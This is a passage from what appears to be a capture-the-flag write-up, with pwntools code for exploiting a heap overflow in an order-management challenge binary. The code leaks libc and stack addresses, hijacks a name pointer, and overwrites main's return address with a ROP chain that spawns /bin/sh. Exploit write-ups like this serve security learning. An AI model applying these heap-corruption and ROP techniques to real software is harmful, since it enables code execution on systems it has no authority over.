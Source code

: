 After this, we can re-overwrite an order's name pointer to place it on this libc pointer, and read it to leak libc! :DD

```python
# there's some free space before the 2nd order, we'll use it from now on to put an order, and overflow it into the 2nd order to move its name
fake_name = lambda addr: flat({
	0x28: 0x21,
	0x48: 0x31,
	0x50: mk_order(0, 0, False, 0, 0xffff, addr),
})

# first move it onto the libc pointer
order(io, 0, 32, b'A', 5, b'B', 0xff00)
modify(io, 0, fake_name(heap + 0x390), b'B')

# now we can read the 2nd order's name to leak libc
libc.address = u64(show(io)[1].name.ljust(8, b'\0')) - libc.sym.main_arena - 96
log.info(f"libc @ 0x{libc.address:x}")
```

Now i just placed the name on environ to leak the stack:
```python
cancel(io, 0)
order(io, 0, 32, b'A', 5, b'B', 0xff00)
modify(io, 0, fake_name(libc.sym.environ), b'B')
environ = u64(show(io)[1].name.ljust(8, b'\0'))
log.info(f"stack @ 0x{environ:x}")
```

And then i placed it onto main's return pointer and i overwrote it with a ROP chain.
```python
cancel(io, 0)
main_ret = environ - 0x120
aleak("main's ret ptr", main_ret)
order(io, 0, 32, b'A', 5, b'B', 0xff00)
modify(io, 0, fake_name(main_ret), b'B')

rop = ROP(libc)
rop.raw(rop.ret)
rop.system(next(libc.search(b"/bin/sh\0")))
modify(io, 1, rop.chain(), b'B')
```

In order to exit the program we have to free all the orders, so i overwrote it one last time to put it back into its original place so that `free()` wouldn't crash.
```python
# move the name back onto its original chunk so it can be freed
cancel(io, 0)
order(io, 0, 32, b'A', 5, b'B', 0xff00)
modify(io, 0, fake_name(heap + 0x350), b'B')

# now free everything
cancel(io, 0)
cancel(io, 1)
```
